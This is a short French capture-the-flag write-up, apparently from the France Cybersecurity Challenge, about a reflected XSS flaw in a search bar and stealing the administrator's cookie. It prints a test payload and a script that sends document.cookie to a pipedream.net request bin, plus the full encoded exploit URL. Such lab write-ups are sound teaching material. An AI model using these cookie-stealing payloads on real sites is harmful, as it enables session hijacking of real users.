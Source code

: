 # Random Search
<img src="https://media.discordapp.net/attachments/768928242467340328/840138995673071616/unknown.png"/><br/>
Challenge web super basique, on doit trouver un moyen de voler le cookie de l'administrateur.<br/>
## Résolution
En visitant le site qui nous est donné, je vois deux points intéressants.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/840139522376335370/unknown.png?width=1440&height=550"/><br/>
On a un contexte d'XSS plutôt récurrent où on peut contacter l'administrateur.<br/>
On a notamment un searchbar à notre disposition. Je décide m'attaquer dessus.<br/>
Premièrement je teste cette payload ```<svg/onload=prompt();>```.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/840140153799311380/unknown.png?width=1440&height=470"/><br/>
Le searchbar est vulnérable aux attaques XSS. On a donc notre point d'injection.<br/>
En premier temps je crée un requestbin sur https://pipedream.com/ <br/>
Cette payload est une redirection vers mon pipedream.<br/>
```<script>document.location="https://enx36kg9aihcldt.m.pipedream.net?cookie="+document.cookie;</script>```<br/>
Je pose la payload dans le paramètre search.<br/>
```http://challenges2.france-cybersecurity-challenge.fr:5001/index.php?search=%3Cscript%3Edocument.location%3D%22https%3A%2F%2Fenx36kg9aihcldt.m.pipedream.net%3Fcookie%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E```<br/>
